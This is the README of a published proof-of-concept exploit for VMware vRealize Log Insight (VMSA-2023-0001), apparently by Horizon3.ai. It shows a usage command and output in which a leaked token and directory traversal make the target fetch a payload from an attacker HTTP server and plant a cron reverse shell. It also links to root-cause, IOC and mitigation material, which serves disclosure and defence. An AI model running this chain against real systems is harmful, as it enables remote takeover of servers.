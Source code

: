 # VMSA-2023-0001
POC for VMSA-2023-0001 affecting VMware vRealize Log Insight which includes the following CVEsl:
* VMware vRealize Log Insight Directory Traversal Vulnerability (CVE-2022-31706)
* VMware vRealize Log Insight broken access control Vulnerability (CVE-2022-31704)
* VMware vRealize Log Insight contains an Information Disclosure Vulnerability (CVE-2022-31711)

The default configuration of this vulnerability writes a cron job to create a
reverse shell. Be sure to change the `payload` file to suite your environment.

## Technical Analysis
A technical root cause analysis of the vulnerability can be found on our blog:
https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive

## Indicators of Compromise
For analyzing Log Insight instances for indicators of compromise check out our IOC blog:
https://www.horizon3.ai/vmware-vrealize-cve-2022-31706-iocs/

## Summary
This POC abuses the various Thrift RPC endpoints to achieve an arbitrary file write.

## Usage
```plaintext
$ python3 VMSA-2023-0001.py --target_address 192.168.4.133 --http_server_address 192.168.4.60 --http_server_port 8080 --payload_file payload --payload_path /etc/cron.d/exploit 
[+] Using CVE-2022-31711 to leak node token
[+] Found node token: f261d2f5-71fa-45fd-a0a0-6114a55a8fb8
[+] Using CVE-2022-31704 to trigger malicious file download
192.168.4.133 - - [30/Jan/2023 16:43:41] "GET /exploit.tar HTTP/1.1" 200 -
[+] File successfully downloaded
[+] Using CVE-2022-31706 to trigger directory traversal and write cron reverse shell
[+] Payload successfully delivered
```

## Troubleshooting
If using a cron based payload, make sure the payload file has the appropriate
permissions and owner:
```shell
sudo chown root:root payload
```
```shell
sudo chmod 0644 payload 
```

## Mitigations
Update to the latest version or mitigate by following the instructions within the VMSA
https://www.vmware.com/security/advisories/VMSA-2023-0001.html

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

